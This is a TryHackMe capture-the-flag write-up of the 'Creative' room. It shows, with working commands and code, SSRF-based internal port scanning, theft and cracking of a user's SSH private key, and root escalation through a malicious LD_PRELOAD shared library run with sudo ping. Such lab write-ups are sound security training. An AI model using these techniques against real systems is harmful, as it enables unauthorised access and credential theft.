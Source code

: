 ```yaml
---
title: Creative - TryHackMe Write-Up
date: 2024-09-23
description: A write-up on the room Creative.
author: PrintN
---
```

![Image 0](0.webp)
## Introduction
Hello👋 Today we're going to take a look at [Creative](https://tryhackme.com/r/room/creative) room on TryHackMe by sSaadakhtarr. The difficulty is easy.

We'll have to start by adding the target IP Adress to our ```/etc/hosts``` use nano or vim to edit this.
```bash
[YOUR_TARGET_IP] creative.thm
```
We can now take a look at the website ```http://creative.thm```. It looks like a simple html website.
![Screenshot 1](1.webp)

## Enumeration
We'll just start off with a simple Nmap scan. We see that the ports 22 and 80 are open.
![Screenshot 2](2.webp)

Let's try to find some directories with Gobuster.
```bash
gobuster dir -u http://creative.thm -w /usr/share/wordlists/dirbuster/direcotry-list-lowercase-2.3-medium.txt
```
![Screenshot 3](3.webp)
Hmmm nothing interesting there. Let's try subdomains.
```bash
gobuster vhost -u http://creative.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain creative.thm
```
![Screenshot 4](4.webp)
We found something. Let's check it out. Add ```beta.creative.thm``` to your ```/etc/hosts```.
![Screenshot 5](5.webp)

Ok, it explains what it does. Let's test it! I have created a test.txt and setup a python http server.
![Screenshot 7](7.webp)
![Screenshot 6](6.webp)
And it connects! We can see that it sends a GET request and on the website it displays the test.txt.
![Screenshot 8](26.webp)

Let's try and see if we can connect to the localhost (127.0.0.1) of the website.
![Screenshot 8](8.webp)
Which returns the content of the page.
![Screenshot 9](9.webp)

Now let's try to see if there are any ports that are not accesible from the outside. We'll use ```ffuf``` for this. But we first need to make a ports.txt we can do that with ```seq```.
```bash
seq 65535 > ports.txt
```

```bash
ffuf -u http://beta.creative.thm/ -w ports.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://localhost:FUZZ" -fw 3
```
![Screenshot 10](10.webp)
And we got a open port 1337!

## Getting Access
Now, with the ```http://localhost:1337/``` payload on ```http://beta.creative.thm```, we are able to get the contents of the web server.
![Screenshot 11](11.webp)

![Screenshot 12](12.webp)

Let's try going to ```/home``` and see what users we got.
![Screenshot 13](13.webp)

We get a user called Saad. Let's go into Saad's home folder.
![Screenshot 14](14.webp)

We can see that Saad has a .ssh folder.
![Screenshot 15](15.webp)

Let's get Saad ```id_rsa```
![Screenshot 16](16.webp)

To get the correct formatting of the ```id_rsa``` (to not get any errors when logging in with ssh), you'll have to view page source and then copy the contents of the ```id_rsa```.
![Screenshot 17](17.webp)

After having copied the ```id_rsa``` we have to give 600 permission to the ```id_rsa```.

![Screenshot 18](18.webp)

Looks like we need a passphrase. We can use ```john``` to get the password but we first have to convert the ```id_rsa``` to a .hash with ```ssh2john``` like so.
```bash 
ssh2john id_rsa > id_rsa.hash
```
![Screenshot 19](19.webp)

```bash 
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Screenshot 20](20.webp)

Nice! We got the passphrase, now we can ssh into Saad.

![Screenshot 21](21.webp)

And we're able to get the first flag 😃

![Screenshot 22](22.webp)

## Privilege Escalation
After looking a bit around I found Saad's password in the **.bash_history**.
![Screenshot 23](23.webp)

We can then see what privileges we have with ```sudo -L```.
![Screenshot 24](24.webp)
We see that Saad can run ```ping``` as root, but we can't do much with ```ping```. If we look closely on the ```sudo -L``` output, we can see that it contains:
```bash
env_keep+=LD_PRELOAD
```

The ```LD_PRELOAD``` environment variable is used to specify shared libraries that should be loaded before others when a program is run. This allows us to override functions in existing libraries. We can leverage this feature to inject malicious code into a process running with elevated privileges. 

```c
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	system("/bin/sh");
}
```
Next we'll have to compile it.
```bash
gcc -fPIC -shared -o escalate.so escalate.c -nostartfiles
```

Finally, we run the ```ping``` command with our ```LD_PRELOAD``` variable pointing to our malicious library
```bash
sudo LD_PRELOAD=/tmp/escalate.so /usr/bin/ping
```
![Screenshot 25](25.webp)

And we get root and are able to get the second flag 🥳 This was a fun room, hope you learned something from this write-up. Happy Hacking!